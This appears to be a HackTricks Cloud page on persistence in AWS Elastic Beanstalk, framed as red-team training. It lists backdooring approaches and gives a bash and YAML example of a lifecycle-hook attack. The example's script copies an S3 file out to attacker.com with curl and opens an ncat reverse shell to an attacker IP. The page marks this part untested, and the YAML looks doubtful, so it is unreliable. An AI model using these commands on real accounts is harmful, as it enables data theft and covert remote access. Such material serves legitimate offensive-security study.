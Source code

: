 # AWS - Elastic Beanstalk Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Elastic Beanstalk

For more information check:

{% content-ref url="../aws-services/aws-elastic-beanstalk-enum.md" %}
[aws-elastic-beanstalk-enum.md](../aws-services/aws-elastic-beanstalk-enum.md)
{% endcontent-ref %}

### Persistence in Instance

In order to maintain persistence inside the AWS account, some **persistence mechanism could be introduced inside the instance** (cron job, ssh key...) so the attacker will be able to access it and steal IAM role **credentials from the metadata service**.

### Backdoor in Version

An attacker could backdoor the code inside the S3 repo so it always execute its backdoor and the expected code.

### New backdoored version

Instead of changing the code on the actual version, the attacker could deploy a new backdoored version of the application.

### Abusing Custom Resource Lifecycle Hooks

{% hint style="info" %}
TODO: Test
{% endhint %}

Elastic Beanstalk provides lifecycle hooks that allow you to run custom scripts during instance provisioning and termination. An attacker could **configure a lifecycle hook to periodically execute a script that exfiltrates data or maintains access to the AWS account**.

```bash
bashCopy code# Attacker creates a script that exfiltrates data and maintains access
echo '#!/bin/bash
aws s3 cp s3://sensitive-data-bucket/data.csv /tmp/data.csv
gzip /tmp/data.csv
curl -X POST --data-binary "@/tmp/data.csv.gz" https://attacker.com/exfil
ncat -e /bin/bash --ssl attacker-ip 12345' > stealthy_lifecycle_hook.sh

# Attacker uploads the script to an S3 bucket
aws s3 cp stealthy_lifecycle_hook.sh s3://attacker-bucket/stealthy_lifecycle_hook.sh

# Attacker modifies the Elastic Beanstalk environment configuration to include the custom lifecycle hook
echo 'Resources:
  AWSEBAutoScalingGroup:
    Metadata:
      AWS::ElasticBeanstalk::Ext:
        TriggerConfiguration:
          triggers:
            - name: stealthy-lifecycle-hook
              events:
                - "autoscaling:EC2_INSTANCE_LAUNCH"
                - "autoscaling:EC2_INSTANCE_TERMINATE"
              target:
                ref: "AWS::ElasticBeanstalk::Environment"
              arn:
                Fn::GetAtt:
                  - "AWS::ElasticBeanstalk::Environment"
                  - "Arn"
  stealthyLifecycleHook:
    Type: AWS::AutoScaling::LifecycleHook
    Properties:
      AutoScalingGroupName:
        Ref: AWSEBAutoScalingGroup
      LifecycleTransition: autoscaling:EC2_INSTANCE_LAUNCHING
      NotificationTargetARN:
        Ref: stealthy-lifecycle-hook
      RoleARN:
        Fn::GetAtt:
          - AWSEBAutoScalingGroup
          - Arn' > stealthy_lifecycle_hook.yaml

# Attacker applies the new environment configuration
aws elasticbeanstalk update-environment --environment-name my-env --option-settings Namespace="aws:elasticbeanstalk:customoption",OptionName="CustomConfigurationTemplate",Value="stealthy_lifecycle_hook.yaml"
```

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
